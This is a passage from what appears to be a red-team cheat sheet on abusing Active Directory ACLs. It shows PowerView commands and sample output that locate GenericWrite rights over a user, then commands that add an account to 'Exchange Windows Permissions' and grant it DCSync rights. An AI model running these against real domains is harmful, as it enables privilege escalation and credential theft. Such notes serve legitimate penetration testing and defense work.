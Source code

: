 


### PowerView3

Search for interesting ACLs:

```
PowerView3 > Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceClass -match "user"}

AceType               : AccessAllowed
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
ActiveDirectoryRights : GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110  <== Victim (jorden)
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-3102  <== Attacker (sbauer)
AccessMask            : 131112
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Check if the attacker "MEGACORP\sbauer" (`S-1-5-21-3167813660-1240564177-918740779-3102`) has `GenericWrite` permissions on the "jorden" user object:

```
PowerView3 > Get-DomainObjectAcl -Identity jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq "S-1-5-21-3167813660-1240564177-918740779-3102"}
```

Notes:

* PowerView 3.0 does not return `IdentityReference` property, which makes it less handy for this task (however, you may filter the output by the attacker's SID).
* `-ResolveGUIDs` switch shows `ObjectType` and `InheritedObjectType` properties in a human form (not in GUIDs).




## Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```

Add DCSync rights with PowerView2:

```
PowerView2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```
